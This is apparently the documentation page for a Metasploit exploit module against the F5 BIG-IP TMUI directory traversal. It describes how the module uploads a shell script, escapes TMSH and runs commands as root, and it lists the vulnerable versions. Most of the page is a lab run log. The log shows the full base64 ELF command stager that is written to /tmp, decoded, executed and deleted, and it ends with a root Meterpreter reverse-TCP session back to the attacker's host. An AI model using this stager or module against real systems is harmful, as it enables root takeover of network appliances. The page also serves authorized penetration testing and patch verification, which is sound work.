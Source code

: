 ## Vulnerable Application

### Description

This module exploits a directory traversal in F5's BIG-IP Traffic
Management User Interface (TMUI) to upload a shell script and execute
it as the Unix root user.

Unix shell access is obtained by escaping the restricted Traffic
Management Shell (TMSH). The escape may not be reliable, and you may
have to run the exploit multiple times. Sorry!

Versions 11.6.1-11.6.5, 12.1.0-12.1.5, 13.1.0-13.1.3, 14.1.0-14.1.2,
15.0.0, and 15.1.0 are known to be vulnerable. Fixes were introduced
in 11.6.5.2, 12.1.5.2, 13.1.3.4, 14.1.2.6, and 15.1.0.4.

Tested against the VMware OVA release of 14.1.2.

### Setup

Download
[BIGIP-14.1.2-0.0.37.ALL-scsi.ova](https://downloads.f5.com/esd/serveDownload.jsp?path=/big-ip/big-ip_v14.x/14.1.2/english/virtual-edition/&sw=BIG-IP&pro=big-ip_v14.x&ver=14.1.2&container=Virtual-Edition&file=BIGIP-14.1.2-0.0.37.ALL-scsi.ova)
and import it into your desired virtualization software.

You _may_ need to log in to the management interface as the `admin` user
to complete system initialization and make the target exploitable. The
default password for the `admin` user is `admin`.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### WritableDir

Set this to a writable directory in which files will be dropped.
Defaults to `/tmp`.

## Scenarios

### F5 BIG-IP 14.1.2 in VMware Fusion

```
msf5 > use exploit/linux/http/f5_bigip_tmui_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/http/f5_bigip_tmui_rce) > options

Module options (exploit/linux/http/f5_bigip_tmui_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf5 exploit(linux/http/f5_bigip_tmui_rce) > set rhosts 172.16.249.179
rhosts => 172.16.249.179
msf5 exploit(linux/http/f5_bigip_tmui_rce) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(linux/http/f5_bigip_tmui_rce) > run

[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target is running BIG-IP 14.1.2.
[*] Creating alias list=bash
[-] Alias "list" already exists, deleting it
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash
[*] Creating alias list=bash
[+] Successfully created alias list=bash
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwQ+QFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/wCkkU.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/whuIi' < '/tmp/wCkkU.b64' ; chmod +x '/tmp/whuIi' ; '/tmp/whuIi' ; rm -f '/tmp/whuIi' ; rm -f '/tmp/wCkkU.b64'"]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwQ+QFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/wCkkU.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/whuIi' < '/tmp/wCkkU.b64' ; chmod +x '/tmp/whuIi' ; '/tmp/whuIi' ; rm -f '/tmp/whuIi' ; rm -f '/tmp/wCkkU.b64'
[*] Uploading /tmp/WuyGIfbP
[+] Successfully uploaded /tmp/WuyGIfbP
[*] Executing /tmp/WuyGIfbP
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 172.16.249.179
[*] Meterpreter session 1 opened (172.16.249.1:4444 -> 172.16.249.179:55118) at 2020-07-17 06:06:38 -0500
[+] Deleted /tmp/WuyGIfbP
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash

meterpreter > getuid
Server username: no-user @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.3.1611 (Linux 3.10.0-514.26.2.el7.ve.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
